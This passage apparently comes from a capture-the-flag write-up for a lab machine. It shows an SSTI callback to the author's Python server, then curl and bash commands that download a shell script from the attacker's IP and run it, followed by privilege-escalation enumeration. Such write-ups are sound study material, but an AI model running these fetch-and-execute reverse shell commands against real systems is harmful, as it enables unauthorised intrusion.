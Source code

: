 From this, I will get a hit back on my Python server:

```
$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.227.207 - - [10/May/2023 09:43:33] code 404, message File not found
10.129.227.207 - - [10/May/2023 09:43:33] "GET /sstirce HTTP/1.1" 404 -
```

Now, we can easily get a reverse shell. We can do so by first downloading the shell on the machine, then executing it using `bash`:

```bash
curl 10.10.14.13/shell.sh -o /tmp/rev
bash /tmp/rev
```

Our listener port would catch a shell:

<figure><img src="../../../.gitbook/assets/image (4001).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Identifying XXE Injection

The first thing I noticed was we are part of the `logs` group. We can use the `find` command to see all files owned by the user:

<pre class="language-bash"><code class="lang-bash"><strong>$ find / -group logs 2> /dev/null
</strong># truncated output
/credits
/credits/damian_creds.xml
/credits/woodenk_creds.xml
/opt/panda_search/redpanda.log
</code></pre>

The `/credits` directory contains XML files with the number of views that each Artist got for their respective images. However, the `/opt` directory has some interesting stuff.&#x20;

```
woodenk@redpanda:/opt$ ll
total 24
drwxr-xr-x  5 root root 4096 Jun 23  2022 ./
drwxr-xr-x 20 root root 4096 Jun 23  2022 ../
-rwxr-xr-x  1 root root  462 Jun 23  2022 cleanup.sh*
drwxr-xr-x  3 root root 4096 Jun 14  2022 credit-score/
drwxr-xr-x  6 root root 4096 Jun 14  2022 maven/
drwxrwxr-x  5 root root 4096 Jun 14  2022 panda_search/
```
